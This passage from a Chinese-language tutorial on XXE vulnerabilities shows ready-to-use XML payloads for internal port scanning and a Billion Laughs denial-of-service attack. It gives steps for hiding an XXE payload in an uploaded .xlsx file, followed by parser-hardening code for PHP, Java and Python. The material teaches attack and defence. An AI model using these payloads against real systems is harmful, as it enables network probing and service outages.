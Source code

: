### 3. 端口扫描
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:22">
]>
<data>&xxe;</data>
```

### 4. 拒绝服务 (Billion Laughs)
```xml
<!DOCTYPE data [
  <!ENTITY a "lol">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
]>
<data>&d;</data>
```

## 文件上传中的 XXE

许多应用程序（如Word、Excel、SVG等）使用XML格式。攻击者可以创建恶意文档：

1. 创建一个包含XXE负载的Excel文件（.xlsx）：
   - 解压 .xlsx 文件
   - 修改 [Content_Types].xml 或 sheet1.xml
   - 重新压缩文件

2. 上传恶意文档并观察响应

## 防御措施

### 1. 禁用外部实体

#### PHP
```php
libxml_disable_entity_loader(true);
```

#### Java (DocumentBuilderFactory)
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

#### Python (lxml)
```python
from lxml import etree
parser = etree.XMLParser(resolve_entities=False, no_network=True)
etree.parse(xml_source, parser=parser)
```
